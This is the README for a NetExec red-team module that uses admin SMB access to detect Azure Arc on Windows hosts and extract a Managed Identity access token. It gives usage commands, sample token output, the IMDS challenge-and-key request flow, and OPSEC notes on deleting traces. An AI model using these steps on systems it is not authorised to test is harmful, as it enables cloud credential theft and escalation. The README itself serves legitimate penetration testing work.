 # NetExec Module: `azurearc`

Enumerates Azure Arc presence on Windows targets and, when present, retrieves a **Managed Identity access token** from the local Arc IMDS endpoint using the documented **401 challenge → `.key` file → second request** flow.

- **Protocol:** SMB (requires local administrator privileges)
- **Primary use case:** Rapidly map Arc deployment and obtain a cloud-scoped token for Azure control-plane enumeration during red team engagements.

---

## ✨ Features

- **Presence check** (`CHECK=true`): Detects Arc agent by listing well-known install paths.
- **Token retrieval** (default): Executes the IMDS challenge/response locally on the target and returns JSON containing `access_token`.

---

## ⚙️ Usage

```bash
# Presence check only :
nxc smb <TARGET> -u <USER> -p '<PASS>' -M azurearc -o CHECK=true

# Token dump :
nxc smb 192.168.1.100 -u USER -p 'PASS' -M azurearc
[*] Attempting to retrieve Azure Arc Managed Identity access token
[+] Managed Identity token retrieved
{
  "access_token": "eyJhbGciOi...<redacted>...",
  "expires_on": "1730812345",
  "token_type": "Bearer",
  "resource": "https://management.azure.com"
}


🔍 How It Works (Behavior)
Presence check via SMB listing:
C:\Program Files\AzureConnectedMachineAgent\*
C:\Program Files (x86)\AzureConnectedMachineAgent\*

Token retrieval on target (PowerShell):
1.GET http://localhost:40342/metadata/identity/oauth2/token?resource=...&api-version=...
→ expect 401 with WWW-Authenticate: Basic realm="<path to .key>"
Read the .key contents (requires local admin).
2.Second GET with Authorization: Basic <key> to obtain token JSON.
Write JSON to OUTFILE, fetch via SMB, and delete the file.

```

📸 Screenshots
<img width="1201" height="450" alt="2025-10-05_16h20_40" src="https://github.com/user-attachments/assets/41ae5d89-0756-44dd-a0a5-7d936d3879c2" />
<img width="1189" height="391" alt="2025-10-05_17h29_40" src="https://github.com/user-attachments/assets/1b362d70-aace-4c94-bcbf-beb7e0679d3d" />

```bash

🔒 OPSEC & Scope Notes
Local admin required on the target (matches Arc’s security boundary).
Tokens are written to a temp file on the target only long enough to read back via SMB. the file is then deleted.
Be mindful of token lifetime and endpoint logging.


🧭 References
NSIDE Attack Logic  Azure Arc - Part 1 - Escalation from On-Premises to Cloud
https://www.nsideattacklogic.de/azure-arc-part-1-escalation-from-on-premises-to-cloud/
```
